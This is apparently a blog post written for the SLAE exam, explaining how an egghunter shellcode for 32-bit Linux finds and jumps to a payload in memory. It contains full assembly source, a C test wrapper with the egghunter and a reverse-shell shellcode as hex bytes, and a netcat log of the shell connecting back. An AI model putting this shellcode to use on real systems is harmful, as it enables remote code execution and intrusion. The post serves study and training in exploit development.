 ```yaml
---
layout: post
title: SLAE 3 - Egghunter Shellcode
date:   2019-02-27
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The third question for the SLAE exam is to create a working EggHunter demo.  The requirements are:
* Study egghunter shellcode
* Create a working demo
* Should be configurable to different payloads

## Creating an egghunter

In the past I have read about egghunters so I know their purpose and the general idea of how they work but I have never tried to create one or work through actual implementation strategies.  Corelan has a great exploit writing series that involves a piece on egghunters in detail:

The article references Skape's write up on egghunters and suggests that it should be a good starting point. So, I'll start with Skape's write up, move to Corelan, and then for extra reading.. the heap only egghunter seems interesting.
1. http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
2. https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting
3. http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html 

- Egg size is best at 8 bytes
  * A 4 byte key that appears 2 times in a row.  This is because the 4 byte key is stored in memory and making it repeat avoids the situation that it runs into it's own stored key instead of the buffer.
  * This also increases speed because instead of searching for two unique keys it can search for 1 key twice in a row
- Some implementations require that the egg is executable assembly because control is passed to the egg and it will continue execution right into the payload after the egg.  
  * One could create an egghunter that jumps 8 bytes ahead of the egg but that creates unnecessary overhead (solution to this is in skape's writeup)
  * The implementation we will use checks the key with scasd which increases the pointer value by 4 each time we use it.  This is exacly what we need and reduces size while improving our egghunter.

- In 32-bit Linux, the best option for traversing memory without crashing would be to abuse the system call functionality.  Most system calls will return the EFAULT error code if it comes across an invalid memory address.  This can then be used to avoid dereferencing that address and keep from crashing the program.
  * A note is that if we find an invalid memory address, we increase the memory address that we are searching for by 0x1000 (PAGE_SIZE).  This is because if the address is invalid, the entire page will be invalid so we can just skip to the next.  If the address is valid but does not match the key/egg, then we increase by one to continue checking the next memory address in line.

Implementation strategy with system call access(2):
- int access(const char *pathname, int mode);

The syscall number can be found at /usr/include/asm/unistd.h
```c
#define __NR_access 33
```
So our steps are:
1. Prepare the key we will be searching for (4 bytes since our egg will be the key 2 times in a row)
2. Prepare the beginning memory address to check
3. Check if address is valid memory space, if not, we can skip by page size (0x1000) since the entire page will be invalid. Then repeat the memory check.
4. Address is valid.. now we check if the address we are at equals our key, if not, increase memory address by 1 and repeat from step 3
5. First half of egg identified, check address + 4 = key again.  If not, increase memory by 1 and repeat from step 3.
6. Egg found, pass execution to our identified address

One issue I ran in to was that ECX was not getting zero'd out at the start and it caused the egghunter to fail when checking for valid addresses.  It would return an error that did not match EFAULT which led to the invalid address getting dereferenced -> segfault.  So, a quick solution was to just add the instruction to also zero out ecx.

```asm
global _start

section .text

_start:
  xor edx, edx
  xor ecx, ecx
new_page:
  or dx, 0xfff

inc_addr:
  inc edx
  
  lea ebx, [edx+0x4]
  
  push byte 0x21
  pop eax
  
  int 0x80    ; checking address
  
  cmp al, 0xf2  ; check if valid
  jz new_page
  
  ; valid address, check for egg
  mov eax, 0x50905090    
  mov edi, edx
  
  ; scasd compares value in eax to value at edi AND increases the pointer by 4 so we can use this to shorten our shellcode
  scasd
  jnz inc_addr
  
  ; match! check again for 2nd half of egg
  scasd
  jnz inc_addr
  
  ; found our egg, pass execution to this address (start of shellcode since scasd increased to AFTER our egg!)
  jmp edi
```
Time to test it..
Compile nasm, check for nulls, add to wrapper.  If you'd like to see how to do those steps, they are listed in the previous 2 posts - Shell Bind TCP Shellcode and Shell Reverse TCP Shellcode.  

The wrapper below contains the shellcode from the reverse shell (previously made) inside of the code\[\] array:
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	printf("Egghunter Length: %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
You can see that we have adjusted the wrapper a little from previous write ups.  The code array has the egg at the beginning now and we have added the egghunter.  Running strace with the egghunter shows that the egghunter is properly searching all the memory addresses. (Output not shown here since it is a lot, but very helpful when testing this out)

Test it:
```
./shellcode
Egghunter Length: 37
Shellcode Length:  87
```
Receiving reverse shell and issuing command:
```
nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 48834)
who
pwoer    tty7    Dec 11 10:13 (:0)
```
